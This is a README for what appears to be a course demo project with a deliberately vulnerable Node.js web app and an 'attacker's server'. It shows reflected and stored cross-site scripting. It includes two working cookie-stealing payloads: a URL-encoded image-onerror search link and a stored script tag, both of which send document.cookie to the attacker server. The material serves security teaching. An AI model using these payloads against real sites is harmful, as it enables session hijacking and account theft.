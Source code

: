 # XSS Demo
A simple web application to demonstrate reflected and stored cross-site scripting.

![screenshot](screenshot.png "screenshot")

### Requirements
- [Node.js](https://nodejs.org/en/download/)
- [npm](https://www.npmjs.com/) (comes with Node.js)

### Installation
```bash
git clone https://github.com/nicwoj/csci-xss-demo.git
cd csci-xss-demo
npm install
```

### Running the project
Start the vulnerable web app (http://localhost:3001/).
```bash
node index.js
```

Start the attacker's server.
```bash
cd attack-server
node index.js
```

### Adding a post
To create a new post, input a title and body under **Make a post** and click the **Post** button. 
New posts are added to the bottom of the **View previous posts** list.

### Searching
To search through existing posts, input a search query under **Search** and click the **Search** button. 
The search is case senstive and looks for an exact match within each post's title and body.
Search queries can also be entered using http://localhost:3001/?search=.

### Clearing existing posts
Posts can be cleared by clicking the transparent **Clear** button in the top left corner of the page.

### Toggling input encoding
Input is encoded when the toggle switch in the top right corner of the page is turned on. 
Its state is saved when the page is refreshed.

## Reflected XSS Example
The following URL can be delivered to a target to execute a reflected cross-site scripting attack:
```
http://localhost:3001/?search=%3Cimg%20src%3D%22x%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3000%2F%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E
```
The target's session cookie is expected to appear within the attacker's console window when the URL is visited.

## Stored XSS Example
The following script can be posted by the attacker to execute a stored cross-site scripting attack:
```html
<script>new Image().src='http://localhost:3000/?data='+document.cookie</script>
```
The target's session cookie is expected to appear within the attacker's console window each time the page is loaded.

